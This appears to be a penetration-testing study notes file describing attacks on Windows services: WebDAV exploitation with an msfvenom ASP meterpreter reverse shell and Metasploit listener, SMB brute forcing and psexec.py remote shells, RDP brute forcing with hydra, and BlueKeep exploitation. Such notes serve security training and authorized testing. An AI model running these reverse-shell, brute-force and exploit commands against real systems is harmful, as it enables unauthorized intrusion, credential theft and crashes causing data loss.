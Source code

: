   
  ### Exploiting Microsoft IIS WebDAV
    - run nmap -sV -p xxx --script=http-enum x.x.x.x to find out if a webserver uses WebDAV
    - run "davtest" command to enumerate with parameters -url -auth username:password to perform some checks of webdav server
    - use "cadaver http://xxxxxxxx/webdav/" to access contents within the webdav server
  
  ### Exploiting Microsoft IIS WebDav via Metersploit
    - Get a Payload :)
      - msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=xxxx -f asp > revshell.asp (Get a asp reverse shell via msfvenom)
    - upload the payload via cadaver
    - start msfconsole with postgresql (systemctl start postgresql or service postgresql start && msfconsole)
      - use multi/handler
      - set payload windows/meterpreter/reverse_tcp
      - specify LHOST and LPORT
      - run -> to start the listener and execute the shell on the webdav server.
  
  ### Exploiting SMB with PsExec
  
    - SMB is a network file sharing protocol
    - SMB is frequently used to share printers or files in a local area network
    - SMB runs on TCP 445 and originally on top of NetBIOS (TCP 139)
    - SAMABA is the Linux implementation of SMB
  
  SMB Authentication process
  ![grafik](https://user-images.githubusercontent.com/58482416/207962932-8bca3853-de10-44d9-bcb7-c8af8ea1284d.png)

  PSExec is a lightweight telnet replacement and it is very siliar to RDP (CMD level). PsExec Authentication is performed via SMB.
  
  Bruteforce smb login via metasploit
  
    - use auxiliary/scanner/smb/smb_login
    - show options and specify the needed values
  
  
  Psexec.py is the python linux implementation of psexec
    Usage: psexec.py Administrator@x.x.x.x cmd.exe
    
    
    
    ### Exploiting RDP (Bruteforce)
    
  - RDP runs by default on TCP 3389, but be aware and always do a full scan, because some companies switch to a different port
  - Veryfiy if a port is used for RDP with metasploit module auxiliary/scanner/rdp/rdp_scanner
  - Bruteforce RDP with hydra: hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.0.0.31 -s 3333 (s specifies the Port)
  
  - use xfreerdp to connect: xfreerdp /u:administrator /p:qwertyuiop /v:10.0.0.31:3333
  
  ### Exploiting Windows CVE-2019-0708 RDP Vulnerability (BlueKeep)
  - Bluekeep allows attackers to remotely execute arbitary code and gain access to a Windows system
  - You will always get an elevated shell (system)
  - Effects XP, Vista, Windows 7, Windows Server 2008 & R2
  - Exploit is very instable and may cause system crashes frequently
  - there are msf modules to exploit this vulnerability. Just search for bluekeep
  - THIS EXPLOIT IS NOT RECOMMENDED TO RUN IN A VULNERABLITY ASSESSMENT, BECAUSE KERNEL EXPLOITS CAN CRASH SYSTEMS AND MAY CAUSE DATA LOSS!!!!!
  